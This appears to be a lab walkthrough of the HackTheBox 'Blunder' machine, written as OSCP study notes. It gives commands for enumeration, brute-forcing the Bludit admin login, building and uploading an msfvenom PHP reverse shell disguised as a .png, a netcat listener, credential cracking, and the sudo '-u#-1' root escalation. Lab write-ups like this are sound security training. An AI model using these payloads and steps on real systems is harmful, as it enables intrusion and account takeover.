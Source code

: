 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)
**Focus:** Bludit RCE, Web enumeration, LXD priv esc  
**Tags:** OSCP Prep, TJNull List

---

## 📡 Recon

### Rustscan

```bash
rustscan -a 10.129.190.208 --ulimit 5000 -- -A
```

### /etc/hosts

```bash
echo "10.129.190.208 blunder.htb" | sudo tee -a /etc/hosts
```

### Directory Fuzzing

```bash
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://blunder.htb/FUZZ
```

---

## 🌐 [Web Enumeration](HTTP)

- Found `/admin` login panel.
- Bludit version found in HTML source: `3.9.2`

---

## 🔍 Credential Brute-force

### Attempt #1 - Default user

```bash
python3 exploit.py -l http://10.10.10.191/admin/login -u admin -p /usr/share/wordlists/rockyou.txt
```

### Discovering `fergus` from `todo.txt`

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.191/FUZZ -e .php,.txt,.html -t 64
```

#### Then retry with `fergus`:

```bash
python3 exploit.py -l http://10.10.10.191/admin/login -u fergus -p /usr/share/wordlists/rockyou.txt
```

### Custom Wordlist with `cewl`

```bash
cewl -w output.txt http://10.10.10.191
python3 exploit.py -l http://10.10.10.191/admin/login -u fergus -p ./output.txt
```

✅ **Password found:** `RolandDeschain`

---

## 💥 Authenticated RCE Exploit

### Payload Creation

```bash
msfvenom -p php/reverse_php LHOST=10.10.14.3 LPORT=1234 -f raw -b '"' > evil.png
echo -e "<?php $(cat evil.png)" > evil.png
```

### .htaccess File

```bash
echo "RewriteEngine off" > .htaccess
echo "AddType application/x-httpd-php .png" >> .htaccess
```

> Upload both files via Burp Suite and adjust paths to write to `../../tmp/temp`.

### Trigger Payload

```bash
nc -lvnp 1234
curl http://10.10.10.191/bl-content/tmp/temp/evil.png
```

---

## 🐚 Shell as www-data ➝ Enumerate

### Decompressing `config`

```bash
mv config config.gz
gzip -d config.gz
tar -xvf config
```

---

## 👤 Shell as Hugo

### Grep for Credentials

```bash
grep -ir hugo /var/www
```

Found SHA1 hash → Cracked with CrackStation: `Password120`

```bash
su hugo
```

✅ **User Flag:** `/home/hugo/user.txt`

---

## 🧑‍🔧 Privilege Escalation

### Sudo Permissions

```bash
sudo -l
```

Allowed to run `/bin/bash` as any user except root.

```bash
sudo -u shaun /bin/bash
```

### LXD Check

```bash
id
```

If in `lxd` group, proceed with:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
lxc image import ./alpine-*.tar.gz --alias myimage
```

*(Didn’t work due to missing command... fallback below)*

---

### Sudo Vulnerability Exploit (version < 1.8.28)

```bash
sudo -V
sudo -u#-1 /bin/bash
```

✅ **Root Flag:** `/root/root.txt`
